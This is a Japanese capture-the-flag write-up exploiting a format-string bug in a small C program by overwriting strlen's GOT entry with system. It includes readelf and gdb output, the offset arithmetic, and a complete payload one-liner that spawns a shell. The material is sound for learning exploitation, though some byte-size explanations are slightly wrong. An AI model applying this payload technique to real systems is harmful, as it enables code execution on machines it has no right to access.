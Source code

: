 ```yaml
---
layout: post
title: got overrite
date: 2017-04-21 11:42:35
categories: ctf
---
```


```
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
  char str[128];
  fgets(str, 128, stdin);
  printf(str);

  fgets(str, 128, stdin);
  printf("%d\n", strlen(str));
  return 0;
}
```

## 方針

1. printf()でGOTOverWriteをして、strlen()関数をsystem関数に書き換える。
2. 2度目のfgets()でsystem関数の引数を設定
3. strlen(str)でシェルを起動

### GOT領域のアドレスを調べる
```
% readelf -r got

Relocation section '.rel.dyn' at offset 0x31c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000805 R_386_COPY        0804a040   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x32c contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```
より、
`0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`

### system関数のアドレスを調べる

```
kobad@kobad-virtual-machine ~/pwn> gdb -q got
Voltron loaded.
Reading symbols from got...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484f9
gdb-peda$ r
Starting program: /home/kobad/pwn/got
Breakpoint 1, 0x080484f9 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e41940 <system>

```

より、`0xf7e41940 <system>`

### %nフォーマット指定子

printfが出力している文字数をメモリに書き込む

* %n   - 4 byte
* %hn  - 2 byte
* %hhn - 1 byte

`%n$s` - (スタックの?)n番目の値を%s型で表示

## 解答
strlen = 0x0804a018

system = 0xf7e41940

0x0804a018 - 0x0804a019 にsystemの下位4byte

0x0804a01a - 0x0804a01b にsystemの上位4byteを書き込む

0x1940 = 6464 で\x18\xa0\x04\x08\x1a\xa0\x04\x08この分の8byteを引く

0x1940 - 0x08 = 6456

0xf7e4 = 63460 で0x1940を引く

0xf7e4 - 0x1940 = 56996

スタックには8byteずつ積まれていくので、
最初の8byte(\x18\xa0\x04\x08) が11番目

次の8byte(\x1a\xa0\x04\x08) が12番目

11番目の0x0804a018に0xa1940を書き込み(0x0804a018 == 0xa1940ってこと？)、
12番目の0x0804a01aに0xf7e4を書き込む。

これでstrlenがsystem関数に書き換わった。

\nで次のfgets()へいき、/bin/shを与えて、
strlen(/bin/sh) == system(/bin/sh)なのでshellが起動する

`(echo -e '\x18\xa0\x04\x08\x1a\xa0\x04\x08%6456x%11$hn%56996x%12$hn\n/bin/sh'; cat) | ./got `
